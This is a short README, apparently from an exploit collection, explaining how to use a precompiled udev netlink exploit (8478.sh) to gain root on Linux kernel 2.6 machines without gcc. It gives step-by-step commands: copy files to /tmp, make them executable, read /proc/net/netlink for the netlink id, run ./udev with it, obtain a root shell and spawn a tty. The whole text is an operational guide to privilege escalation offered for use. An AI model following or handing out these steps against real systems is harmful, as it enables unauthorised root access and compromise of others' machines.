 this directory is useful when gcc is not present in the machine 
8478.sh is used for privilege escalation in linux kernel 2.6
it works by exploiting UDEV. the netlink id passed udev is not checked properly which can be exploited.

copy the files to /tmp
chmod 755 *;
cat /proc/net/netlink;
get the netlink id with value ffffffff
./udev netlink_value;

You will get a root shell. spin up a tty shell
